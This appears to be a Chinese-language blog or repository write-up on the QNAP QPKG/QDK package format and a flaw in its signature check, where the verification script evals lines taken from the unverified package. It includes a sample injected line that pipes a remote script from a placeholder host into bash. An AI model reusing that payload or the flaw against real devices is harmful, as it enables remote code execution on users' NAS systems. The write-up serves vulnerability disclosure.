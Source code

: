 所以QDK包尾部的结构是

```
---
TLV (signture, type 0xFE, length: 1 + len(sign) byte)
---
TLV (EOF, type 0xFF, length: 1 byte)
---
qpkg info, length: 100byte
```



## QPKG INFO

这两种包的尾部都是是一个固定的字符串数组，等价定义（非NULL结尾，空格填充）

```c
char qpkginfo[100];
char *encrypt = &qpkginfo[40];  // 整个包长度 * 3589 + 1000000000;
char *pkg_name = &qpkginfo[60]; // 包名，长度20byte，其他均为10byte
char *version = &qpkginfo[80];  // 包版本
char *tag = &qpkginfo[90];      // 固定字符串：QNAPQPKG
```



## QDK代码执行漏洞

QKD包签名验证的脚本中有这样一个函数

```shell
get_content_size(){
        [ -n "$1" ] || err_msg "internal error: get_content_size called with no argument"
        local qpkg="$1"
        [ -f "${qpkg}" ] || err_msg ""${qpkg}": no such file"
        local offset_command="$(/bin/sed -n "1,/^exit 1/{
s/^script_len.*/&;/p
s/^offset.*/&;/p
/^exit 1/q
}" "${qpkg}") echo \$offset"
        echo "$(eval $offset_command)"
}
```

这里居然犯了这样一个错误，直接从包里面sed出语句然后eval？？？

虽然进行包签名的验证，但是在这个函数执行的时候签名还没通过呀。

如果有一个包，里面脚本这样写就可以随意执行了，然后再把包修改一下覆盖签名也可以通过了。

```shell
offset=$(curl https://xxx/xx.sh | bash; echo ${oldoffset})
```

这样看来，这个签名其实看着有用，实际上也是只防君子不防小人

**(所以请不要安装任何非官方地址下载的包)**
